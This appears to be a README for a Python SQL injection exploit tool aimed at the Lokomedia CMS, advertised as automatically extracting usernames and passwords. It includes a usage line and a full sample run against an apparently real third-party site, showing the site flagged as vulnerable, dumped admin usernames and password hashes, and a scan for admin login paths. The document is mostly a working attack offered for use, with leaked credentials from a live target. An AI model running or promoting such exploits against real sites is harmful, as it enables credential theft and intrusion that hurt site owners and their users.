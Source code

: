 # sqllokomedia
Exploit Lokomedia auto get user pass
Usage : python lokmed.py http://lokomedia.co.id
<br>
[+] Checking target...
[*] http://fastlap-express.co.id/ [ VULN ]

[+] Exploiting...
======================================================================
[+] USERNAME:
======================================================================
[*]
[*] ,admin,
[*] ,linds,
[*] ,admin,
[*] ,linds
======================================================================
======================================================================
[+] PASSWORD:
======================================================================
[*]
[*] ,21232f297a57a5a743894a0e4a801fc3,
[*] ,860d6f3994fa65e4e6fcc906ea43b74f,
[*] ,21232f297a57a5a743894a0e4a801fc3,
[*] ,860d6f3994fa65e4e6fcc906ea43b74f
======================================================================


[+] Scanning admin page
[*] http://fastlap-express.co.id//adm [ 404 ]
[*] http://fastlap-express.co.id//admin [ 404 ]
[*] http://fastlap-express.co.id//Admin [ 404 ]
[*] http://fastlap-express.co.id//Redaktur [ 404 ]
[*] http://fastlap-express.co.id//redaktur/index.php [ 404 ]
[*] http://fastlap-express.co.id//Adminlogin [ 404 ]
[*] http://fastlap-express.co.id//admin.php [ 404 ]
[*] http://fastlap-express.co.id//login [ 404 ]
[*] http://fastlap-express.co.id//login.php [ 404 ]
[*] http://fastlap-express.co.id//adminweb [ 404 ]
[*] http://fastlap-express.co.id//webadmin [ 404 ]

security007@DESKTOP-BMNRBML:/mnt/c/users/asus/documents/ToolPython/python2$
